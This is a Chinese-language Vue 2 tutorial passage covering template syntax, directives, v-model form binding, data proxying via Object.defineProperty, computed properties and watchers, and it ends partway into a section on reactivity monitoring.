

## 模板语法
Vue 模板语法有 2 大类：

1. 插值语法

功能：用于解析标签体内容

写法：{{xxx}}，xxx 是 js 表达式，且可以直接读取到 data 中的所有属性

2. 指令语法

功能：用于解析标签（包括：标签属性、标签体内容、绑定事件…）

举例：`v-bind: href =“xxx”` 或 简写为 `:href =“xxx”`，xxx 同样要写 js 表达式，且可以直接读取到 data 中的所有属性

```html
<div id="root">
	<h1>插值语法</h1>
	<h3>你好，{{name}}</h3>
	<hr/>
	<h1>指令语法</h1>
    <!-- 这里是展示被Vue指令绑定的属性，引号内写的是js表达式 -->
	<a :href="school.url.toUpperCase()" x="hello">点我去{{school.name}}学习1</a>
	<a :href="school.url" x="hello">点我去{{school.name}}学习2</a>
</div>

<script>
    new Vue({
		el:'#root',
		data:{
			name:'jack',
			school:{
				name:'百度',
				url:'http://www.baidu.com',
			}
        }
	})
</script>
```


## 基本使用

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Title</title>
</head>
<body>

<!--插值表达式，id值和el值相同，绑定vue中的data数据-->
<div id="app">
    {{message}}
</div>

<!-- 1.导入Vue.js -->
<script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
<script>
    //viewModel 实现与Model双向绑定，动态更新视图数据
    var vm = new Vue({
        el:"#app",
        data:{
            message:"hello"
        }
    })
</script>
</body>
</html>
```

## 条件指令（v-if）

v-if 是条件渲染指令，它根据表达式的真假来删除和插入元素，它的基本语法如下：`v-if="expression"`

可以用 v-else 指令为 v-if 或 v-show 添加一个“else 块”。v-else 元素必须立即跟在 v-if 或 v-show 元素的后面——否则它不能被识别。

实现原理：基于条件判断，是否创建或移除元素节点

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Title</title>
</head>
<body>

<div id="app">
    <h1 v-if="ok">YES</h1>
    <h1 v-else>NO</h1>
    <h1 v-if="type==='A'">YES</h1>
    <h1 v-else>NO</h1>
    <h1 v-if="age >= 25">Age: {{ age }}</h1>
	<h1 v-if="name.indexOf('jack') >= 0">Name: {{ name }}</h1>
    
    <!-- v-else和v-else-if -->
    <div v-if="n === 1">Angular</div>
    <div v-else-if="n === 2">React</div>
    <div v-else-if="n === 3">Vue</div>
    <div v-else>哈哈</div>
</div>

<script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
<script>
    var vm=new Vue({
        el: "#app",
        data:{
            ok: true,
            type: 'A',
            age: 28,
			name: 'keepfool'
        }
    })
</script>
</body>
</html>
```

## 条件指令（v-show）
`v-show` 也是条件渲染指令，和 `v-if` 指令不同的是，使用 `v-show` 指令的元素始终会被渲染到 HTML，它只是简单地为元素设置 CSS 的 style 属性

实现原理：通过 CSS 切换 display: none 控制显示隐藏

注意：v-if 是实打实地改变 dom 元素，v-show 是隐藏或显示 dom 元素

```html
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title></title>
</head>
<body>
    <div id="app">
        <h1>Hello, Vue.js!</h1>
        <h1 v-show="yes">Yes!</h1>
        <h1 v-show="no">No!</h1>
        <h1 v-show="age >= 25">Age: {{ age }}</h1>
        <h1 v-show="name.indexOf('jack') >= 0">Name: {{ name }}</h1>
    </div>
</body>
<script src="js/vue.js"></script>
<script>
    var vm = new Vue({
        el: '#app',
        data: {
            yes: true,
            no: false,
            age: 28,
            name: 'keepfool'
        }
    })
</script>
</html>
```

## 循环指令（v-for）
v-for 指令基于一个数组渲染一个列表，它和 JavaScript 的遍历语法相似：

`v-for="item in items" :key="yyy"`，省略 index：`v-for = “item in 数组”`

1. key 的值只能是字符串或数字类型
2. key 的值必须具有唯一性，推荐使用 id 作为 key（唯一），不推荐使用 index 作为 key（会变化，不对应）

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Title</title>
</head>
<body>

<div id="app">
    <p v-for="item in items">{{item.message}}</p>
    <!-- v-for="数组元素 in 源数据数组" -->
    <li v-for="(item, index) in items">
        <!-- 通过遍历变量来访问 -->
        {{item.message}} - {{index}}
    </li>
</div>

<script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
<script>
    var vm=new Vue({
        el:"#app",
        data:{
            items:[
                {message:"123"},
                {message:"456"}
            ]
        }
    })
</script>
</body>
</html>
```

```html
<div id="root">
    <!-- 遍历数组 -->
    <h2>人员列表（遍历数组）</h2>
    <ul>
        <li v-for="(p,index) in persons" :key="index">
            {{p.name}}-{{p.age}}
        </li>
    </ul>

    <!-- 遍历对象 -->
    <h2>汽车信息（遍历对象）</h2>
    <ul>
        <li v-for="(value,k) in car" :key="k">
            {{k}}-{{value}}
        </li>
    </ul>

    <!-- 遍历字符串 -->
    <h2>测试遍历字符串（用得少）</h2>
    <ul>
        <li v-for="(char,index) in str" :key="index">
            {{char}}-{{index}}
        </li>
    </ul>

    <!-- 遍历指定次数 -->
    <h2>测试遍历指定次数（用得少）</h2>
    <ul>
        <li v-for="(number,index) in 5" :key="index">
            {{index}}-{{number}}
        </li>
    </ul>
</div>

<script>
	const vm = new Vue({
        el:'#root',
        data: {
			persons: [
				{ id: '001', name: '张三', age: 18 },
				{ id: '002', name: '李四', age: 19 },
				{ id: '003', name: '王五', age: 20 }
			],
			car: {
				name: '奥迪A8',
				price: '70万',
				color: '黑色'
			},
			str: 'hello'
		}
    })
</script>
```

## 绑定事件（v-on）

v-on 指令用于给监听 DOM 事件，它的用语法和 v-bind 是类似的，例如监听 \< a > 元素的点击事件：

`<a v-on:click="doSomething">`

- 使用 v-on: xxx 或 @xxx 绑定事件，其中 xxx 是事件名
- 事件的回调需要配置在 methods 对象中，最终会在 vm 上
- methods 中配置的函数，都是被 Vue 所管理的函数，this 的指向是 vm 或 组件实例对象

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Title</title>
</head>
<body>

<div id="app">
    <button v-on:click="sayhi">点击我</button>
</div>

<script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
<script>
    var vm=new Vue({
        el:"#app",
        data:{
          message:"hello"
        },
        methods:{
            //方法必须定义在Vue的methods对象中
            sayhi:function (){
                alert(this.message)
            }
        }
    })
</script>
</body>
</html>
```

```html
<!-- 准备好一个容器-->
<div id="root">
    <h2>欢迎来到{{name}}学习</h2>
    <!-- <button v-on:click="showInfo">点我提示信息</button> -->
    <button @click="showInfo1">点我提示信息1（不传参）</button>
    <!-- 主动传事件本身 -->
    <button @click="showInfo2($event,66)">点我提示信息2（传参）</button>
</div>

<script>
	const vm = new Vue({
        el:'#root',
        data:{
            name:'vue',
        },
        methods:{
            // 如果vue模板没有写event，会自动传 event 给函数
            showInfo1(event){
                // console.log(event.target.innerText)
                // console.log(this) //此处的this是vm
                alert('同学你好！')
            },
            showInfo2(event,number){
                console.log(event,number)
                // console.log(event.target.innerText)
                // console.log(this) //此处的this是vm
                alert('同学你好！！')
            }
        }
	});
</script>
```

**Vue 中的事件修饰符**

- prevent：阻止默认事件（常用）
- stop：阻止事件冒泡（常用）
- once：事件只触发一次（常用）

```html
<!-- 准备好一个容器-->
<div id="root">
    <h2>欢迎来到{{name}}学习</h2>
    <!-- 阻止默认事件（常用） -->
	<a href="http://www.baidu.com" @click.prevent="showInfo">点我提示信息</a>
    <!-- 阻止事件冒泡（常用） -->
    <div class="demo1" @click="showInfo">
        <button @click.stop="showInfo">点我提示信息</button>
        <!-- 修饰符可以连续写 -->
        <!-- <a href="http://www.atguigu.com" @click.prevent.stop="showInfo">点我提示信息</a> -->
    </div>
    <!-- 事件只触发一次（常用） -->
    <button @click.once="showInfo">点我提示信息</button>
</div>
```

## 单向绑定数据（v-bind）

v-bind 指令可以在其名称后面带一个参数，中间放一个冒号隔开，这个参数通常是 HTML 元素的特性（attribute），例如：`v-bind:argument="expression"`

```html
<h1 title="{{tit}}">Hello World</h1>

<!-- 
  以下假设是我们定义的data对象
  拥有一个data数据tit 如果我们使用插值的形式
  那么实际页面提示的title信息是{{tit}} 而不是this is title
-->
data() {
  return {
    tit:"this is title"
  };
}, 
```

```html
<!--正确写法-->
<h1 v-bind:title="tit">this is test</h1>
<!--简化写法-->
<h1 :title="tit">this is test</h1>


<!--错误写法-->
<h1 :style="font-size:50px;color:red;">this is test</h1>
<!--正确写法-->
<h1 :style="'font-size:50px;color:red;'">this is test</h1>
<!--数组方式写法-->
<h1 :style="['font-size:30px','color:red']"></h1>


<!-- 注意这里的fontSize和fontColor是我们假定我们在data数据中定义好的一些数据-->
<h1 :style="[fontSize,fontColor]"></h1>
<!-- 原始的那个属性和绑定了的属性是可以并存的 后者或会覆盖前者 -->
<h1 style="font-size:30px;" :style="[fontColor]"></h1>
```

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>My First Vue</title>
</head>
 
<body>
    <!-- view层 模板 -->
    <div id="app">
        <span v-bind:title="message">
          鼠标悬停几秒钟查看此处动态绑定的提示信息！
        </span>
      </div>
 
    <!-- 1.导入Vue.js -->
    <script src="https://cdn.jsdelivr.net/npm/vue@2.5.21/dist/vue.min.js"></script>
    <script>
        //viewModel 实现与Model双向绑定，动态更新视图数据
        var vm = new Vue({
            el: "#app",
            // Model: 数据
            data: {
                message: "Hello, Vue!"
            },
        });
    </script>
    
</body>
</html>
```

**注意**

Vue.js 为最常用的两个指令 v-bind 和 v-on 提供了缩写方式。v-bind 指令可以缩写为一个冒号，v-on 指令可以缩写为@符号。

```html
<!--完整语法-->
<a href="javascripit:void(0)" v-bind:class="activeNumber === n + 1 ? 'active' : ''">{{ n + 1 }}</a>
<!--缩写语法-->
<a href="javascripit:void(0)" :class="activeNumber=== n + 1 ? 'active' : ''">{{ n + 1 }}</a>

<!--完整语法-->
<button v-on:click="greet">Greet</button>
<!--缩写语法-->
<button @click="greet">Greet</button>
```

### class 样式

写法：`:class=“xxx”` ，xxx 可以是字符串、对象、数。

所以分为三种写法：字符串写法，数组写法，对象写法

**字符串写法**

字符串写法适用于类名不确定，要动态获取。

``` html
<style>
	.normal{
        background-color: skyblue;
    }
</style>

<!-- 准备好一个容器-->
<div id="root">
    <!-- 绑定class样式--字符串写法，适用于：样式的类名不确定，需要动态指定 -->
    <div class="basic" :class="mood" @click="changeMood">{{name}}</div>
</div>

<script>
	const vm = new Vue({
        el:'#root',
        data:{
            mood:'normal'
        }
    })
</script>
```

**数组写法**

数组写法适用于要绑定多个样式，个数不确定，名字也不确定。

``` html
<style>
    .atguigu1{
        background-color: yellowgreen;
    }
    .atguigu2{
        font-size: 30px;
        text-shadow: 2px 2px 10px red;
    }
    .atguigu3{
        border-radius: 20px;
    }
</style>

<!-- 准备好一个容器-->
<div id="root">
    <!-- 绑定class样式--数组写法，适用于：要绑定的样式个数不确定、名字也不确定 -->
	<div class="basic" :class="classArr">{{name}}</div>
</div>

<script>
	const vm = new Vue({
        el:'#root',
        data:{
            classArr: ['atguigu1','atguigu2','atguigu3']
        }
    })
</script>
```

**对象写法**

对象写法适用于要绑定多个样式，个数确定，名字也确定，但不确定用不用。

``` html
<style>
    .atguigu1{
        background-color: yellowgreen;
    }
    .atguigu2{
        font-size: 30px;
        text-shadow: 2px 2px 10px red;
    }
</style>

<!-- 准备好一个容器-->
<div id="root">
    <!-- 绑定class样式--对象写法，适用于：要绑定的样式个数确定、名字也确定，但要动态决定用不用 -->
	<div class="basic" :class="classObj">{{name}}</div>
</div>

<script>
	const vm = new Vue({
        el:'#root',
        data:{
            classObj:{
                atguigu1: false,
                atguigu2: false,
			}
        }
    })
</script>
```

### style 样式

**对象写法**

``` html
<!-- 准备好一个容器-->
<div id="root">
    <!-- 绑定style样式--对象写法 -->
	<div class="basic" :style="styleObj">{{name}}</div>
</div>

<script>
	const vm = new Vue({
        el:'#root',
        data:{
            styleObj:{
                fontSize: '40px',
                color:'red',
			}
        }
    })
</script>
```

**数组写法**

```html
<!-- 准备好一个容器-->
<div id="root">
    <!-- 绑定style样式--数组写法 -->
	<div class="basic" :style="styleArr">{{name}}</div>
</div>

<script>
	const vm = new Vue({
        el:'#root',
        data:{
            styleArr:[
                {
                    fontSize: '40px',
                    color:'blue',
                },
                {
                    backgroundColor:'gray'
                }
            ]
        }
    })
</script>
```

## 双向绑定数据（v-model）

原理：v-model 本质上是一个语法糖。例如应用在输入框上，就是 value 属性和 input 属性的合写。

作用：提供数据的双向绑定

1. 数据变，视图跟这边 : value

2. 视图变，数据跟着变 @input

注意：$event 用于在模版中，获取事件的形参

```html
<template>
  <div class="app">
    <input v-model="msg1" type="text" />
    <input :value="msg2" @input="msg2 = $event.target.value" type="text" >
  </div>
</template>
```

```html
<!--这是我们的View-->
<div id="app">
	<p>{{ message }}</p>
	<input type="text" v-model="message"/>
</div>
```

将 message 绑定到文本框，当更改文本框的值时，`<p>{{ message }}</p>` 中的内容也会被更新。


反过来，如果改变 message 的值，文本框的值也会被更新，我们可以在 Chrome 控制台进行尝试。


```html
<!--下拉框-->
<div id="app">
  <select v-model="selected">
    <option value="A被选">A</option>
    <option value="B被选">B</option>
    <option value="C被选">C</option>
  </select>
  <span>Selected: {{ selected }}</span>
</div>
<script src="/resources/js/vue.js"></script>
<script>
  new Vue({
    el: '#app',
    data: {
      selected: ''
    }
  });
</script>
```

```html
<!--单选按钮-->
<div id="app">
  <input type="radio" id="small" value="small_value" v-model="picked">
  <label for="small">small</label>
  <br>
  <input type="radio" id="big" value="big_value" v-model="picked">
  <label for="big">big</label>
  <br>
  <span>Picked: {{ picked }}</span>
</div>
<script src="/resources/js/vue.js"></script>
<script>
  new Vue({
    el: '#app',
    data: {
      picked: ''
    }
  })
</script>
```

```html
<!--复选框-->
<div id="app">
  <input type="checkbox" id="one" value="value_one" v-model.lazy="checkedNames">
  <label for="one">选项一</label>
  <input type="checkbox" id="two" value="value_two" v-model.lazy="checkedNames">
  <label for="two">选项二</label>
  <input type="checkbox" id="three" value="value_three" v-model.lazy="checkedNames">
  <label for="three">选项三</label>
  <br>
  <span>Checked names: {{ checkedNames }}</span>
</div>
<script src="/resources/js/vue.js"></script>
<script>
  new Vue({
    el: '#app',
    data: {
      checkedNames: []
    }
  })
</script>
```

v-model: value 可以简写为 v-model，因为 v-model 默认收集的就是 value 值

备注：v-model 的三个修饰符：

* lazy：失去焦点再收集数据
* number：输入字符串转为有效的数字
* trim：输入首尾空格过滤

注意：

1. 单向绑定（v-bind）：数据只能从 data 流向页面
2. 双向绑定（v-model）：数据不仅能从 data 流向页面，还可以从页面流向 data

使用场景：双向绑定一般都应用在表单类元素上（如：input、select 等）

### 收集表单数据

若：，则 v-model 收集的是 value 值，用户输入的就是 value 值。

``` html
<!-- 准备好一个容器-->
<div id="root">
    <form @submit.prevent="demo">
        账号：<input type="text" v-model.trim="userInfo.account"> <br/><br/>
        密码：<input type="password" v-model="userInfo.password"> <br/><br/>
        年龄：<input type="number" v-model.number="userInfo.age"> <br/><br/>
        <button> 提交 </button>
    </form>
</div>

<script type="text/javascript">
    Vue.config.productionTip = false

    new Vue({
        el:'#root',
        data:{
            userInfo:{
                account:'',
                password:'',
                age: 18,
            }
        },
        methods: {
            demo(){
                console.log(JSON.stringify(this.userInfo))
            }
        }
    })
</script>
```

若：，则v-model收集的是value值，且要给标签配置value值。

``` html
<!-- 准备好一个容器-->
<div id="root">
    <form @submit.prevent="demo">
        性别：
        男 <input type="radio" name="sex" v-model="userInfo.sex" value="male">
        女 <input type="radio" name="sex" v-model="userInfo.sex" value="female">
    </form>
</div>

<script type="text/javascript">
    Vue.config.productionTip = false

    new Vue({
        el:'#root',
        data:{
            userInfo:{
                sex:'female'
            }
        },
        methods: {
            demo(){
                console.log(JSON.stringify(this.userInfo))
            }
        }
    })
</script>
```

若：，没有配置input的value属性，那么收集的就是checked（勾选 or 未勾选，是布尔值）

配置input的value属性:

* v-model的初始值是非数组，那么收集的就是checked（勾选 or 未勾选，是布尔值）

* v-model的初始值是数组，那么收集的的就是value组成的数组

``` html
<!-- 准备好一个容器-->
<div id="root">
    <form @submit.prevent="demo">
        爱好：
        学习 <input type="checkbox" v-model="userInfo.hobby" value="study">
        打游戏 <input type="checkbox" v-model="userInfo.hobby" value="game">
        吃饭 <input type="checkbox" v-model="userInfo.hobby" value="eat">
        <br/><br/>
        所属校区
        <select v-model="userInfo.city">
            <option value=""> 请选择校区 </option>
            <option value="beijing"> 北京 </option>
            <option value="shanghai"> 上海 </option>
            <option value="shenzhen"> 深圳 </option>
            <option value="wuhan"> 武汉 </option>
        </select>
        <br/><br/>
        其他信息：
        <textarea v-model.lazy="userInfo.other"> </textarea> <br/><br/>
        <input type="checkbox" v-model="userInfo.agree"> 阅读并接受 <a href="http://www.atguigu.com">《用户协议》</a>
        <button> 提交 </button>
    </form>
</div>

<script type="text/javascript">
    Vue.config.productionTip = false

    new Vue({
        el:'#root',
        data:{
            userInfo:{
                hobby: [],
                city:'beijing',
                other:'',
                agree:''
            }
        },
        methods: {
            demo(){
                console.log(JSON.stringify(this.userInfo))
            }
        }
    })
</script>
```

## 数据代理

**属性标志**

对象属性（properties），除 value 外，还有三个特殊的特性（attributes），也就是所谓的“标志”

1. writable — 如果为 true，则值可以被修改，否则它是只可读的
2. enumerable — 如果为 true，则表示是可以遍历的，可以在 for… .in Object.keys()中遍历出来
3. configurable — 如果为 true，则此属性可以被删除，这些特性也可以被修改，否则不可以

**Object.getOwnPropertyDescriptor(obj, propertyName)**

这个方法是查询有关属性的完整信息，obj是对象， propertyName是属性名

``` js
let user = {
  name: "John"
};

let descriptor = Object.getOwnPropertyDescriptor(user, 'name');
console.log(descriptor)

/* 属性描述符：
{
  "value": "John",
  "writable": true,
  "enumerable": true,
  "configurable": true
}
*/
```

**Object.defineProperty(obj, prop, descriptor)**

1. obj：要定义属性的对象。
2. prop：要定义或修改的属性的名称
3. descriptor：要定义或修改的属性描述符

``` js
let user = {
  name: "John"
};

Object.defineProperty(user, "name", {
  writable: false
});

user.name = "Pete";
// 打印后还是显示 'John', 无法修改 name 值
```

**访问器属性**

本质上是用于获取和设置值的函数，但从外部代码来看就像常规属性。

访问器属性由 “getter” 和 “setter” 方法表示。在对象字面量中，它们用 `get` 和 `set` 表示

``` js
let obj = {
    get name() {
        // 当读取 obj.propName 时，getter 起作用
    },
    set name() {
        // 当执行 obj.name = value 操作时，setter 起作用
    }
}
```

``` js
let user = {
	surname: 'gao',
    name: 'han'
    
    get fullName() {
        return this.name + this.surname;
    }
}

console.log(user.fullName)
user.fullName = "Test"; // Error（属性只有一个 getter）
```

``` js
let user = {
	surname: 'gao',
    name: 'han'
    
    get fullName() {
        return this.name + ' ' + this.surname;
    }

	set fullName(value) {
        // 这个用到了新语法 结构赋值
        [this.surname, this.name] = value.split(' ');
    }
}

user.fullName = 'Li Hua'

console.log(user.name);
console.log(user.surname);
```

**数据代理**

数据代理：通过一个对象代理对另一个对象中属性的操作（读/写）

``` js
let obj = {
    x: 100
}

let obj2 = {
    y: 200
}
```

我们想要访问 obj 中的 x 的值，但我们最好不要直接去访问 obj，而是想要通过 obj2 这个代理对象去访问。

这时候就可以用上 **Object.defineProperty()**，给 obj2 添加上访问器属性（也就是 getter 和 setter）

``` js
let obj = {
    x: 100
}

let obj2 = {
    y: 200
}

Object.defineProperty(obj2, 'x', {
    get() {
        return obj.x;
    },
    set(value) {
        obj.x = value;
    }
})
```

**Vue 中的数据代理**

Vue 中的数据代理：通过 vm 对象来代理 data 对象中属性的操作（读/写）

Vue 中数据代理的好处：更加方便的操作 data 中的数据

基本原理：

1. 通过 Object.defineProperty()把 data 对象中所有属性添加到 vm 上。
2. 为每一个添加到 vm 上的属性，都指定一个 getter/setter。
3. 在 getter/setter 内部去操作（读/写）data 中对应的属性。

``` html
<!-- 准备好一个容器-->
<div id="root">
	<h2> 学校名称：{{name}}</h2>
	<h2> 学校地址：{{address}}</h2>
</div>

<script>
	const vm = new Vue({
        el: '#root',
        data: {
            name: '浙江师范大学',
            address: '浙江金华'
        }
    })
</script>
```

可以看到，写在配置项中的 data 数据被 绑定到了 vm 对象上，Vue 将 _data 中的 name，address 数据 代理到 vm 本身上。

先来解释下_data 是啥， _data 就是 vm 身上的 _data 属性，就是下图那个



new Vue 时， Vue 通过一系列处理， 将匹配项上的 data 数据绑定到了 _data 这个属性上，并对这个属性进行了处理（数据劫持），但这个属性就是来源于配置项中的 data，我们可以来验证一下。

``` html
<script>
    let data1 = {
        name: '浙江师范大学',
        address: '浙江金华'
    }
    
	const vm = new Vue({
        el: '#root',
        // 我们在 Vue 初始化的配置项中写了 data 属性。
        data: data1
    })
</script>
```

`vm._data==data1` 打印结果为 true，说明两者就是同一个，将 vm.\_data 中的值，再代理到 vm 本身上来，用 vm.name 代替 vm._data.name。这就是 Vue 的数据代理

这一切都是通过 Object.defineProperty() 来完成的，我来模拟一下这个过程

``` js
Object.defineProperty(vm, 'name', {
    get() {
        return vm._data.name;
    },
    set(value) {
        vm._data.name = value
    }
})
```

这样有啥意义？明明通过 vm._data.name 也可以访问 name 的值，为啥费力去这样操作？

在插值语法中，{{ name }} 取到的值就相当于 {{ vm.name }}，不用数据代理的话，在插值语法就要这样去写了。

{{ _data. name }} 这不符合直觉，怪怪的，vue 这样设计更利于开发者开发

## 键盘事件

键盘事件语法糖：@keydown，@keyup

Vue 中常用的按键别名：

- 回车 => enter
- 删除 => delete
- 退出 => esc
- 空格 => space
- 换行 => tab （特殊，必须配合 keydown 去使用）

``` html
<!-- 准备好一个容器-->
<div id="root">
    <h2> 欢迎来到{{name}}学习 </h2>
    <input type="text" placeholder="按下回车提示输入" @keydown.enter="showInfo">
</div>

<script>
    new Vue({
        el:'#root',
        data:{
            name:'浙江理工大学'
        },
        methods: {
            showInfo(e){
                // console.log(e.key, e.keyCode)
                console.log(e.target.value)
            }
        },
    })
</script>
```

## 计算属性（computed）

定义：要用的属性不存在，要通过已有属性计算得来

原理：底层借助了 Objcet.defineProperty 方法提供的 getter 和 setter

get 函数什么时候执行？

1. 初次读取时会执行一次

2. 当依赖的数据发生改变时会被再次调用

备注：

1. 计算属性最终会出现在 vm 上，直接读取使用即可
2. 如果计算属性要被修改，那必须写 set 函数去响应修改，且 set 中要引起计算时依赖的数据发生改变

**与methods区别**

1. computed计算属性

作用：封装了一段对于数据的处理，求得一个结果

缓存特性：计算属性会对计算出来的结果缓存，再次使用直接读取缓存，依赖项变化了，会自动重新计算 -> 并再次缓存

2. methods方法：

作用：给实例提供一个方法，调用以处理业务逻辑

**写法**

``` html
computed: {
	计算属性名(){
		一段代码逻辑（计算逻辑）
		return 结果
	}
}
```

``` html
computed: {
	计算属性名(){
		get(){
			一段代码逻辑（计算逻辑）
			return 结果
		},
		set(修改的值){
			一段代码逻辑（修改逻辑）
		}
	}
}
```

**使用案例**

``` html
<!-- 准备好一个容器-->
<div id="root">
    姓：<input type="text" v-model="firstName">
    名：<input type="text" v-model="lastName"> 
    全名：<span>{{fullName}}</span>
</div>

<script>
	const vm = new Vue({
        el:'#root',
        data:{
            firstName:'张',
            lastName:'三',
        }
        computed:{
            fullName:{
                //get 有什么作用？当有人读取 fullName 时，get 就会被调用，且返回值就作为 fullName 的值
                //get 什么时候调用？1.初次读取 fullName 时。2.所依赖的数据发生变化时。
                get(){
                    console.log('get 被调用了')
                    return this.firstName + '-' + this.lastName
                },
                //set 什么时候调用? 当 fullName 被修改时。
                // 可以主动在控制台修改 fullName 来查看情况
                set(value){
                    console.log('set', value)
                    const arr = value.split('-')
                    this.firstName = arr [0]
                    this.lastName = arr [1]
                }
            }
        }
    })
</script>
```

``` html
<!-- 准备好一个容器-->
<div id="root">
    姓：<input type="text" v-model="firstName">
    名：<input type="text" v-model="lastName"> 
    全名：<span>{{fullName}}</span>
</div>

<script>
	const vm = new Vue({
        el:'#root',
        data:{
            firstName:'张',
            lastName:'三',
        }
        computed:{
            fullName() {
        		console.log('get 被调用了')
				return this.firstName + '-' + this.lastName
    		}
        }
    })
</script>
```

## 监视属性（watch）

1. 当被监视的属性变化时，回调函数自动调用，进行相关操作
2. 监视的属性必须存在，才能进行监视
3. 监视的两种写法：

- new Vue 时传入 watch 配置
- 通过 vm.$watch 监视

``` html
data:{
	words:'苹果',
	obj:{
		words:'苹果'
	}
},

watch: {
	数据属性名(newValue, oldValue) {
		一些业务逻辑 或 异步操作
	},
	'对象.属性名'(newValue, oldValue) {
		一些业务逻辑 或 异步操作
	}
	
}
```

``` html
data:{
	obj:{
		words:'苹果',
		lang:'italy'
	}
},

watch: {
	数据属性名(newValue, oldValue) {
		deep: true,//深度监视
		handler(newValue){
			console.log(newValue)
		}
	}
}
```

**使用案例**

``` html
<!-- 准备好一个容器-->
<div id="root">
    <h2> 今天天气很{{ info }}</h2>
    <button @click="changeWeather"> 切换天气 </button>
</div>


<script>
	const vm = new Vue({
        el:'#root',
        data:{
            isHot: true,
        },
        computed:{
            info(){
                return this.isHot ? '炎热' : '凉爽'
            }
        },
        methods: {
            changeWeather(){
                this.isHot = ! this.isHot
            }
        },
        watch:{
            isHot:{
                immediate: true, // 初始化时让 handler 调用一下
                // handler 什么时候调用？当 isHot 发生改变时。
                handler(newValue, oldValue){
                    console.log('isHot 被修改了', newValue, oldValue)
                }
            }
        } 
    })
</script>
```

``` html
<!-- 准备好一个容器-->
<div id="root">
    <h2> 今天天气很{{ info }}</h2>
    <button @click="changeWeather"> 切换天气 </button>
</div>


<script>
	const vm = new Vue({
        el:'#root',
        data:{
            isHot: true,
        },
        computed:{
            info(){
                return this.isHot ? '炎热' : '凉爽'
            }
        },
        methods: {
            changeWeather(){
                this.isHot = ! this.isHot
            }
        }
    })
    
    vm.$watch('isHot',{
        immediate: true, //初始化时让 handler 调用一下
        //handler 什么时候调用？当 isHot 发生改变时。
        handler(newValue, oldValue){
            console.log('isHot 被修改了', newValue, oldValue)
        }
    })
</script>
```

**深度监视**

1. Vue 中的 watch 默认不监测对象内部值的改变（一层）

2. 配置 deep: true 可以监测对象内部值改变（多层）

备注

1. Vue 自身可以监测对象内部值的改变，但 Vue 提供的 watch 默认不可以
2. 使用 watch 时根据数据的具体结构，决定是否采用深度监视

``` html
<!-- 准备好一个容器-->
<div id="root">
    {{numbers.c.d.e}}
</div>

<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。
    const vm = new Vue({
        el:'#root',
        data:{
            numbers:{
                c:{
                    d:{
                        e: 100
                    }
                }
            }
        },
        watch:{
            //监视多级结构中某个属性的变化
            /* 'numbers.a':{
					handler(){
						console.log('a 被改变了')
					}
				} */
            //监视多级结构中所有属性的变化
            numbers:{
                deep: true,
                handler(){
                    console.log('numbers 改变了')
                }
            }
        }
    });
</script>
```

``` html
<!-- 准备好一个容器-->
<div id="root">
    <h2> 今天天气很{{info}}</h2>
    <button @click="changeWeather"> 切换天气 </button>
</div>

<script>
	const vm = new Vue({
        el:'#root',
        data:{
            isHot: true,
        },
        computed:{
            info(){
                return this.isHot ? '炎热' : '凉爽'
            }
        },
        methods: {
            changeWeather(){
                this.isHot = ! this.isHot
            }
        },
        watch:{
            //简写
            isHot(newValue, oldValue) {
				console.log('isHot 被修改了', newValue, oldValue, this)
			} 
        }
    })
</script>
```

**computed 和 watch 之间的区别：**

- computed 能完成的功能，watch 都可以完成
- watch 能完成的功能，computed 不一定能完成，例如：watch 可以进行异步操作

两个重要的小原则：

1. 所被 Vue 管理的函数，最好写成普通函数，这样 this 的指向才是 vm 或 组件实例对象
2. 所有不被 Vue 所管理的函数（定时器的回调函数、ajax 的回调函数等、Promise 的回调函数），最好写成箭头函数，这样 this 的指向才是 vm 或 组件实例对象

``` html
<!-- 准备好一个容器-->
<div id="root">
    姓：<input type="text" v-model="firstName"> <br/><br/>
    名：<input type="text" v-model="lastName"> <br/><br/>
    全名：<span>{{fullName}}</span> <br/><br/>
</div>

<script>
	const vm = new Vue({
        el:'#root',
        data:{
            firstName:'张',
            lastName:'三',
            fullName:'张-三'
        },
        watch:{
            // watch 监视器里可以写 异步函数
            firstName(val){
                setTimeout(()=>{
                    console.log(this)
                    this.fullName = val + '-' + this.lastName
                },1000);
            },
            lastName(val){
                this.fullName = this.firstName + '-' + val
            }
        }
    })
</script>
```

## vue 监测data中的数据

``` html
<!-- 准备好一个容器-->
<div id="root">
    <h2> 人员列表 </h2>
    <button @click="updateMei"> 更新马冬梅的信息 </button>
    <ul>
        <li v-for="(p,index) of persons" :key="p.id">
            {{p.name}}-{{p.age}}-{{p.sex}}
        </li>
    </ul> 
</div>

<script type="text/javascript">
    Vue.config.productionTip = false

    const vm = new Vue({
        el:'#root',
        data:{
            persons:[
                {id:'001', name:'马冬梅', age: 30, sex:'女'},
                {id:'002', name:'周冬雨', age: 31, sex:'女'},
                {id:'003', name:'周杰伦', age: 18, sex:'男'},
                {id:'004', name:'温兆伦', age: 19, sex:'男'}
            ]
        },
        methods: {
            updateMei(){
                // this.persons [0].name = '马老师' //奏效
                // this.persons [0].age = 50 //奏效
                // this.persons [0].sex = '男' //奏效
                this.persons [0] = {id:'001', name:'马老师', age: 50, sex:'男'} //不奏效
                // this.persons.splice(0,1,{id:'001', name:'马老师', age: 50, sex:'男'})
            }
        }
    }) 

</script>
```

点击更新马冬梅的信息，马冬梅的数据并没有发生改变。

控制台上的数据发生了改变，说明，这个更改的数据并没有被 vue 监测到。

Vue监视数据的原理：vue会监视data中所有层次的数据

如何监测对象中的数据？

1. 通过setter实现监视，且要在new Vue时就传入要监测的数据。
2. 对象中后追加的属性，Vue默认不做响应式处理。如需给后添加的属性做响应式，请使用如下API：

* Vue.set(target，propertyName/index，value) 或

* vm.$set(target，propertyName/index，value)

如何监测数组中的数据？

通过包裹数组更新元素的方法实现，本质就是做了两件事：

